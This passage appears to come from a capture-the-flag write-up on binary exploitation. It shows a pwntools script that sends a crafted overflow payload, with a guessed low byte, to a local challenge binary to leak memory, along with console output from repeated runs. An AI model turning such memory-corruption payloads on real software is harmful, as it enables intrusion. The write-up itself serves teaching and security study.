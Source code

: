If we're not so lucky, then we might not be able to access the string manipulation menu, or the data being leaked might not be very useful (e.g. it could be part of the payload we supplied, or some random garbage values).

So I wrote a small script to test this:

```python
from pwn import *

# Guess the low byte...
# Manually change this byte here -------v
payload = b"0"*60 + b"\x10\x00\x00\x00\x50" + b"0"*43 + b"\x82\x00\x00\x00"

p = process("./some_program")
p.sendlineafter(b"//////////////////////////////////", b"1")
p.sendlineafter(b"Your answer: ", payload)
p.sendlineafter(b"//////////////////////////////////", b"2")
r = p.recvline(timeout=1)
r = p.recvline(timeout=1)
if b"Cromulon" in r:
    p.sendlineafter(b"Passphrase: ", b"A"*64)
    p.sendlineafter(b"> ", b"4")
    for i in range(18):
        r = p.recvline(timeout=10)
    r = r[:6]
    s = ""
    for i in r:
        x = i^0x41
        s += hex(x).lstrip("0x") + " "
    print(s)
```

For instance, here's some example output after I ran the script many times with `magic_byte` set to `0x50`:

```console
amarok@ubuntu:~/tisc$ python3 test.py
[+] Starting local process './some_program': pid 301864
[*] Stopped process './some_program' (pid 301864)
amarok@ubuntu:~/tisc$ python3 test.py
[+] Starting local process './some_program': pid 301868
Traceback (most recent call last):
  (stack trace omitted for your sanity)
EOFError
[*] Process './some_program' stopped with exit code -11 (SIGSEGV) (pid 301868)
amarok@ubuntu:~/tisc$ python3 test.py
[+] Starting local process './some_program': pid 301873
30 30 30 30 30 30 
[*] Stopped process './some_program' (pid 301873)
amarok@ubuntu:~/tisc$ python3 test.py
[+] Starting local process './some_program': pid 301877
30 30 30 30 30 30 
[*] Stopped process './some_program' (pid 301877)
amarok@ubuntu:~/tisc$ python3 test.py
[+] Starting local process './some_program': pid 301881
30 30 30 30 30 30 
[*] Stopped process './some_program' (pid 301881)
amarok@ubuntu:~/tisc$ python3 test.py
[+] Starting local process './some_program': pid 301885
[*] Stopped process './some_program' (pid 301885)
amarok@ubuntu:~/tisc$ python3 test.py
[+] Starting local process './some_program': pid 301889
      
[*] Stopped process './some_program' (pid 301889)
amarok@ubuntu:~/tisc$ python3 test.py
[+] Starting local process './some_program': pid 301893
```